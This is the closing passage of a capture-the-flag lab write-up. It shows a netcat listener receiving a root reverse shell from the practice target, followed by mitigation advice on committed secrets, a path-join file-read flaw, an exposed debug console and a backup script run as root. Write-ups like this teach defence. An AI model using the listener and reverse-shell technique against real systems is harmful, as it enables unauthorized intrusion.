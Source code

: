 I started a netcat listener, created a new file on the server, and waited for the script to run.

```bash
$ nc -klvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.126.28 38750
bash: cannot set terminal process group (16813): Inappropriate ioctl for device
bash: no job control in this shell

root@opensource:/home/dev01# whoami
whoami
root

root@opensource:/home/dev01# cd /root
cd /root

root@opensource:~# cat root.txt
cat root.txt
REDACTED
```

## Mitigation

This was a very fun box to pwn. There was few opening that allowed me to gain access and escalate my privileges. 

The first big issue with the box was committing secrets to a repository. The source code contained the credentials of `dev01`. And the backup repository contained their private key. 

There should be safeguards against adding secrets:

* Add common file to .gitignore
* Use tools that scan for secrets in pre-commit hooks
* Look for them in code review 

Errors might still happen. If a password is committed, removing it like it was done in the application source code is not enough. The password needs to be changed because it is still part of the history. 

The problem with the LFI is a little harder. You need to really know your language to know about issues like the one in `os.path.join`. There are a few things that could be done to help with this issue. 

* Rename the file instead of using the name provided by the user
* Uploaded file information should be stored in a database. And only those files should be accessible. 
* In this code, making sure the filename does not start with a / would have helped

Another problem with the box is that the debug console was available. This should never be activated in production applications. This console allows running any Python code. And access anything that the application has access to. It could be useful to debug issues while developing the application, but there is no reason to deploy it anywhere public.

The last issue was the backup script. I'm not convinced that git is a good tool to run backups. But if they wanted to use it to keep snapshots, the script should have run as the user that is being backed up, not as root.
